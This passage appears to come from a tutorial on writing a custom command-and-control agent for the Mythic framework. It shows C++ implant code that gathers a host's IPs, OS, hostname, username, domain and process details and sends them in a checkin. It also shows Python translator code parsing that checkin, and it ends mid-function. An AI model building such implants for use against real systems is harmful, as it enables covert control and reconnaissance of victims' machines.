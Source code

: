 
For our agent to actually checkin, we need to send the C2 a bunch of information. The info is displayed in the diagram in [this section](#check-in)...

We will not provide encryption and decryption keys since our agent does not support encryption. Apart from this, we will send most of the information as we can see on the next snippet :

{% highlight C++ %}
PPackage checkin = newPackage(CHECKIN, TRUE);
addString(checkin, (PCHAR)ceosConfig->agentID, FALSE); // UUID
UINT32* tableOfIPs = getIPAddress(&numberOfIPs);

addInt32(checkin, numberOfIPs); // Number of IPs
for (UINT32 i=0 ; i< numberOfIPs; i++)
    addInt32(checkin, tableOfIPs[i]); // IP address

addString(checkin, getOsName(), TRUE); // OS
addByte(checkin, getArch()); // Arch
addString(checkin, getHostname(), TRUE); // Hostname
addString(checkin, getUserName(), TRUE); // Username
addWString(checkin, getDomain(), TRUE); // Domain
addInt32(checkin, GetCurrentProcessId()); // Current PID
addString(checkin, getCurrentProcName(), TRUE); // Current Process Name
addString(checkin, (PCHAR)"1.1.1.1", TRUE); // External IP

Parser* ResponseParser = sendPackage(checkin);
{% endhighlight %}

## Check In - Translator side

To be sure we are facing a new checkin, the translator has to check if the first byte (the command ID) is the one of the checkin command (in our case 0xf1).

{% highlight python %}
# Agent --> C2
async def translate_from_c2_format(self, inputMsg: TrCustomMessageToMythicC2FormatMessage) -> TrCustomMessageToMythicC2FormatMessageResponse:
    response = TrCustomMessageToMythicC2FormatMessageResponse(Success=True)
    data = inputMsg.Message
    if data[0] == commands["checkin"]["hex_code"]:
        response.Message = checkIn(data[1:])
{% endhighlight %}    

We now need to create our checkin function, which will return the checkin data as JSON.

{% highlight python %}

def getBytesWithSize(data): # Returns the data along with its size
    size = int.from_bytes(data[0:4])
    data = data[4:]
    return data[:size], data[size:]


def checkIn(data):
    
    # Retrieve UUID
    uuid = data[:36]
    data = data[36:]
    
    # Retrieve IPs
    numIPs = int.from_bytes(data[0:4])
    data = data[4:]
    i = 0
    IPs = []
    while i < numIPs: